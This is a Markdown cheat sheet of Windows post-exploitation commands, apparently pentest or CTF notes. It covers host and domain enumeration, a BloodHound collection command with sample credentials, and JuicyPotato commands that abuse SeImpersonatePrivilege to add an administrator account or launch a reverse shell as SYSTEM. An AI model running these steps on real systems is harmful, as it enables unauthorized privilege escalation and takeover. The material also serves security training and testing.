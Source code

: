 # Windows-Exploitation

## Windows enumeration

#### Who
```
whoami
echo %username%
whoami /priv
```

#### Users and groups
```
// What users/localgroups are on the machine?
net users
net localgroups

// More info about a specific user. Check if user has privileges.
net user user1

// View Domain Groups
net group /domain

// View Members of Domain Group
net group /domain {Group Name}
```

#### System info
```
systeminfo
ver
hostname
```

#### Patch on the system
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

#### Network
```
ipconfig /all
route print
arp -A
```

#### Firewall
```
netsh firewall show state
netsh firewall show config
```

##### Search a specific filename
```
dir /b/s proof.txt
```

## Automated enumeration


## Bloodhound enumeration

#### Let's use bloodhound to visualise the domain and look for privilege escalation paths
```
bloodhound-python -d <DOMAIN> -u <USERNAME> -p <PASSWORD> -gc <COMPUTERNAME>.<DOMAIN> -c all -ns 10.0.0.1
----> EX:  bloodhound-python -d example.local -u svc-admin -p s3rvice -gc laptop01.example.local -c all -ns 10.0.0.1
```


## Privesc

#### MS17-010 - Eternal Blue


#### Abuse SeImpersonatePrivilege

```
➤ 1. Verify that 'SeImpersonatePrivilege' privilege is enabled.

C:\Users\Lexis>whoami /priv
Informations de privilèges
----------------------

Privilege Name                Description                                  State
============================= ============================================ =========
SeShutdownPrivilege           Stop the system                              Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                     Enabled
SeImpersonatePrivilege        Impersonate a client after authentication    Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set               Disabled

➤ 2. Import JuicyPotato on the victim

➤ 3. Basic attacks without specific CLSID

// Add a user in the administrators group
.\JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd .exe -t * -a "/c net localgroup administrators {MY_EXISTING_USER} /add"

// Execute a reverse shell as NT AUTHORITY\SYSTEM
.\JuicyPotato.exe -l 1337 -p C:\Users\public\rshell.exe -t *

➤ 4. Using specific CLSID

helper : https://ohpe.it/juicy-potato/CLSID/

//Manual CLSID dectection based on OS version
https://ohpe.it/juicy-potato/CLSID/

//Automated CLSID detection scripts
.\GetCLSID.ps1
or 
.\clisd-detector.bat

//Add a user in the administrators group using the specific CLSID
.\JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd .exe -t {CLSID} -a "/c net localgroup administrators {MY_EXISTING_USER} /add"
```
